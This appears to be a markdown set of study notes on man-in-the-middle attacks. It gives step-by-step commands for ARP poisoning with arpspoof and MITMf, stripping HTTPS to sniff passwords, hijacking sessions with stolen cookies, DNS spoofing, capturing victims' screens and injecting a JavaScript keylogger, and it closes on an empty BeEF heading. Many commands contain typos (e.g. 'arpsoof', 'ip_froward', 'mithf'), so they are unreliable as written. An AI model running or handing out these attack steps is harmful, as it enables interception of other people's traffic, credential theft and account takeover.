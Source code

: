 # Main In The Middle Attacks

### ARP Poisoning

This is one of the most dangerous and effective attacks that can be used to *redirect packets to and from any client to our device* and since we have the network key, we can read/modify/drop the packets. This allows us to launch very powerful attacks. It's very hard to protect against it as it exploits the insecure way that ARP works.

ARP security issues:
- Each ARP request/response is trusted.
- Clients can accept responses even if they did not send request.

**ARPSPOOF**

Arpspoof is a tool part of a suit called dnsiff, which contains a number of network penetration tools. Arpspoof can be used to launch a MITM and redirect traffic to flow through our device.

1. Command tell the  target client that I am the router.
```
arpspoof -i [interface] -t [target IP] [AP IP]
Ex: arpsoof -i wlan0 -t 192.168.1.5 192.168.1.1
````

2. Command tell the AP that I am the target client.
```
aprspoof -i [interface] -t [AP IP][target IP]
Ex: arpsoof -i wlan0 -t 192.168.1.1 192.168.1.5
```

3. Enable IP forward to allow packets to flow through our device without being dropped.
`Echo 1> /proc/sys/net/ipv4/ip_froward`

## MAN IN THE MIDDLE FRAMEWORK (MITMf)

MITMf is a framework that allows to launch a number of MITM attacks. MITMf also starts SSLstrip automatically to bypass HTTPS/SSL.

```
mitmf-arp-spoof-gateway [GATEWAY IP] --targets [TARGET IPs] -i [interface]
Ex: mitmf --arp --spoof --gateway 10.20.14.1 --targets 10.20.14.206 - eth0/wlan0
```

`echo 1 > /proc/sys/net/ipv4/ip_forward`

If you get error like `Import Error: No module named bdfactory` then you have to install first **the-backdoor-factory** module.

`https://github.com/secretsquirrel/the-backdoor-factory`

`apt-get update`
`apt-get install backdoor-factory`

If you get this error agian then you have to isntall manually.

```
https://github.com/secretsquirrel/the-backdoor-factory.git
mkdir /usr/share/mitmf/bdfactory
cd the-backdoor-factory
cp -r ./* /usr/share/mitmf/bdfactory/ 
cd /usr/share/mitmf/bdfactory
```
### Bypassing HTTPS

Most of the website use https in their registration pages. These pages are validated using an SSL certificate and there for will show a warning to the user that the certificate is valaid. SSLstrip is a tool that can be used to downgrade HTTPs requests to HTTP allowing us to sniff passwords without displaying a warning to the user.

*Note: MITMf starts SSLstrip.*

### Session Hijacking

If the user uses this feature hte authentication happens using the cookies and not the user and password. So instead of sniffing the password we can sniff the cookies and inject them into our browser, this will allows us to login to the user's account without using the password.

`apt-get intall ferret-sidejack`

`ferret -i [interface]`

`hamster`

### DNS Spoofing

DNS Spoofing allows us to refirect any request to a certain domain to another domain. We have to run apache server.

`service apache2 start`

1. Edit DNS settings.

`leafpad /etc/mitmf/mitmf.conf`

2. Run ettercap to arp poison target (s) and enable the dns_spoof plugin.

```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --dns
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --dns
```

### Capturing Screen of Target & Injecting a Keylogger

Default Interval 10s
```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --screen
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --screen

mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --screen --interval 5
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --screen --interval 5
```

```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --jskeylogger
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --jskeylogger
```

## Beef Framework

Browser Exploitation Framework allowing us to launch a number of attacks on a hooked target. Target are hooked once they load a hook url.

- DNS spoof requests to a page containing a hook
- Inject the hook in browser pages (need to be MITM)

### Hooking Clients To Beef & Stealing Passwords

